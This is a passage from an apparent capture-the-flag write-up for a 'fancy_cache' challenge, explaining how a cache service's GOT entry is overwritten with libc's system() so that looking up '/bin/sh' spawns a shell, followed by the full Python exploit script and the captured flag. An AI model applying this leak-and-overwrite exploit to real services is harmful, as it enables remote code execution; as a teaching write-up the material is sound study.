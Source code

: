 Where `a` is the value of the cache entry, and `b` is the value of the user supplied `string` to look up. To accomplish this, I define a cache entry with a key of `/bin/sh`. I also pass the address of `system` (packed in little endian) as the value, which overwrites the GOT entry as explained above. Then all I need to do is get the cache entry `/bin/sh`, which performs `memcmp(/bin/sh,/bin/sh)` when looking up the cache entry. `thing=True` starts an interactive session by calling the below code:

```py
t = telnetlib.Telnet()
t.sock = s
t.interact()
```

Below is the final exploit:

```py
assert cache_set(f,'a','bbb',1)
print cache_get(f,'a')
print cache_get(f,'\xff\xff\x00\x00\xff\xff\x00\x00\x14\xb0\x04\x08')
assert cache_set(f,'a','\x56\x84\x04\x08',1)
a = unpack4(cache_get(f,'a'))
libc_base = a-0x142870
system = libc_base+0x00040100
print cache_get(f,'\xff\xff\x00\x00\xff\xff\x00\x00\x14\xb0\x04\x08')
assert cache_set(f,'/bin/sh',pack4(system),2)
print cache_get(f,'/bin/sh',thing=True)
```

Run that, and there we go, it's a shell!

```bash
    cat /home/fancy_cache/flag.txt
    that_wasnt_so_free_after_all
```
